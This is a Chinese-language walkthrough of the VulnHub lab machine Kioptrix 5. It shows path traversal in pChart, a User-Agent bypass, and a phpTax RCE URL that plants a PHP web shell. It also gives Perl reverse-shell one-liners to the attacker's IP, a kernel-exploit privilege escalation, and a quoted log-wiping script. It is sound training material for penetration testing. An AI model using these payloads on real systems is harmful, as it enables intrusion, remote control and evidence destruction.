# 前言

靶机：`kioptrix-5`，IP地址为`192.168.10.10`

攻击：`kali`，IP地址为`192.168.10.6`

都采用`VMware`虚拟机，网卡为桥接模式

这里需要注意，在靶机安装后，先把原本的网卡删除，重新添加一个网络适配器，并选择桥接模式即可，这里在靶机的官方也是给出了这个问题。

> 文章中涉及的靶机，来源于`vulnhub`官网，想要下载，可自行访问官网下载，或者通过下方链接下载

# 主机发现

使用`arp-scan -l`或`netdiscover -r 192.168.10.1/24`扫描

也可以使用`nmap`等工具进行



# 信息收集

## 使用nmap扫描端口

```shell
nmap -sV -O 192.168.1.74 -p- -T4
```

这里看到扫描出的`ssh`当前处于关闭状态



## 网站信息探测

访问80端口，发现相当于网站的默认界面



查看页面源代码，发现一个注释中的信息，提供一个`url`，可能是网站目录



把这个`url`拼接在80端口的目录，发现应该是一个`cms`



使用`whatweb`工具或者`wappalyzer`插件分析网站构造



采用`apache`2.2.21(freeBSD)版本，扩展`mod_ssl`2.2.21版本，`php`版本5.3.8

既然这里给了`url`，是否有其他可能，直接使用工具进行扫描测试

工具选择很多，这里采用`dirsearch`扫描的，也可以使用`gobuster、ffuf、dirb`等工具

```shell
dirsearch -u http://192.168.10.10/pChart2.1.3/ -x 404
```



访问`readme.txt`，确定该`cms`的版本



# 漏洞寻找及利用

使用`searchsploit`搜索有无对应的漏洞，发现有一个文档



查看文档，里面记录了该`cms`存在的漏洞，包括`xss`和文件包含，路径遍历



当前来看，`xss`可能无法给予更多的东西，尝试路径，测试后发现，该方式确实可以



因为靶机采用`apache`，所以，尝试默认的日志文件路径，看能否查看

测试默认的`/etc/apache2`路径后，发现配置文件`httpd.conf`或`apache.conf`都无

之前在使用`whatweb`扫描出的靶机是`freeBSD`的，所以百度一下，其默认的界面，或者访问官方文档



当然这也可以通过前面的路径遍历，根据收集的字典去进行爆破，也是可以的

首先查看配置文件，查看一圈，发现并未有把任何文件都解析为`php`的，或者把日志文件解析为`php`也是没有的，不过在配置文件中，发现一个信息



那么访问8080端口进行测试，发现直接访问就是403，那么就是与这个配置有关，需要指定`user-agent`为`Mozilla/4.0 Mozilla4_browser`



不过这里因为所有8080端口的请求都需要该`user-agent`，所以推荐使用浏览器插件`user-agent switch and manager`这个可以使得浏览器在访问的时候，一直采用固定的`user-agent`



这个界面也挺像某种`cms`的，只是不知道是否有漏洞，搜索了一下，其最新版本是`2002.08`版本

# 反弹shell

使用`searchsploit`搜索，发现除了使用`msf`外，有两种形式，远程代码执行倒是符合现在所需要的



查看第二个文件`25849.txt`，整体是一个`php`脚本，更改名称后可用，并且其中是有用法的，若是采用这种方式，需要修改脚本中的`user-agent`

这里我采用脚本中的关键代码进行测试



```shell
http://192.168.10.10:8080/phptax/index.php?field=rce.php&newvalue=%3C%3Fphp%20passthru(%24_GET%5Bcmd%5D)%3B%3F%3E
```

在浏览器的`url`中构造即可，然后后面再通过访问前面构造的文件，即可触发

```shell
http://192.168.10.10:8080/phptax/data/rce.php?cmd=id
```



这时候就可以构造反弹`shell`的代码测试

```shell
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.10.6:443");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

在尝试众多的反弹shell后，这个语句成功获取

推荐一个网站吧，这里反弹shell挺多的`https://forum.ywhack.com/reverse-shell/`



# 提权

进入后，发现并不能切换目录，并且大部分都是无法使用，可能获取的shell，并没有`sh`的原因，不过可以直接使用命令`sh`，这样就可以切换目录等操作，不过即使这样也是无用

或者另开一个`nc`监听，构造`perl`有`sh`的情况，经测试，靶机只有`sh`

```shell
perl -e 'use Socket;$i="192.168.10.6";$p=9999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```



这里反弹成功后，对于`sh`有个提示，说是无权`tty`，以及任务控制关闭

使用`find`寻找到具有SUID权限的文件后，经过测试也是无法使用的，可参考网站`https://gtfobins.github.io`




收集靶机内核版本信息



内核信息有了，使用`searchsploit`搜索，发现有对应的内核版本提权



有文件。那么现在就是想办法传输，测试有哪些命令吧



有`nc`和`gcc`，那么使用`nc`传输文件



然后使用`gcc`编译文件后，执行后就获取`root`权限



查看`/root`目录下的东西



还有一个日志清空的脚本，查看脚本内容

```shell
rm /root/folderMonitor.log
rm /var/log/sendmail.st.0
echo "" > /root/.history
echo "" > /var/log/httpd-access.log
echo "" > /var/log/httpd-error.log
echo "" > /usr/local/ossec-hids/logs/alerts/alerts.log
echo "" > /var/log/messages
echo "" > /var/log/lpd-errs
echo "" > /var/log/auth.log
echo "" > /var/log/maillog
echo "" > /var/log/security
echo "" > /var/log/userlog
echo "" > /var/log/xferlog
echo "" > /var/log/cron
echo "" > /var/log/sendmail.st
echo "" > /var/log/utx.lastlogin
echo "" > /var/log/utx.log
echo "" > /var/log/ppp.log
echo "" > /var/log/debug.log
```

# 总结

该靶机的考察有以下几点值得思考

1. 对于信息收集能否全面，或者说能否更详细，这里就是因为收集到靶机的网站为`freeBSD`搭建的`apache`框架，然后才能想到去搜索配置文件的默认路径
2. 对于网站出现的`cms`，可以尝试去搜索有无历史漏洞，要理解漏洞形成
3. 对于反弹`shell`，要多尝试，所以才会有各种各样的反弹`shell`，这里还只是基本层面的
4. 对于提权，也要会收集靶机信息，这里只是内核提权，若是有多台机器，也要去思考


